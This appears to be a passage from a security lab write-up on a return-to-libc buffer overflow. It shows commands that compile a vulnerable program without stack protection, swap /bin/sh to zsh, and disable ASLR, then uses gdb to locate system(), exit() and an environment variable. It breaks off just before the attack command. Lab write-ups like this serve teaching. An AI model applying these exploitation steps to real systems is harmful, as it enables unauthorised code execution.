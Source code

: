 #### 1. Compile env.c and turn off countermeasure factors in OS 

Compiling env.c with some options such as disabling the stack protector and allowing execution on stack:

```
gcc -g env.c -o env.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack
```

Creat link to zsh instead of default dash to turn off bash countermeasures of Ubuntu 16.04:

```
sudo ln -sf /bin/zsh /bin/sh
```

Turn off OS's address space layout randomization 

```
sudo sysctl -w kernel.randomize_va_space=0
```

#### 2. Load program into gdb and find necessary addresses

Run the env.out

```
gdb -q env.out
start
```

Then, run these two following commands to find addresses of system() and exit():

```
p system
p exit
```

Also run this command to get address of VULNP variable:

```
print getenv("VULNP")
```

Here's the result:

<img width="500" alt="Screenshot" src="https://github.com/leonart-delux/informationsecurity-labs/blob/7d75e56e9344244e6cea9989841ee95f6f4dbb36/images/task1/getAddress.jpg"><br>

Observing the results:
* Address of system(): 0xf7e50db0
* Address of exit(): 0xf7e449e0
* Address of VULNP: 0xffffdf04x

#### 3. Conduct the attack

Note that we need to overflow the addresses in little-endian format. The most important thing is that we can only run this command while loading the program in gdb, as the address of VULNP will be different outside of it.

Here’s the attack command:
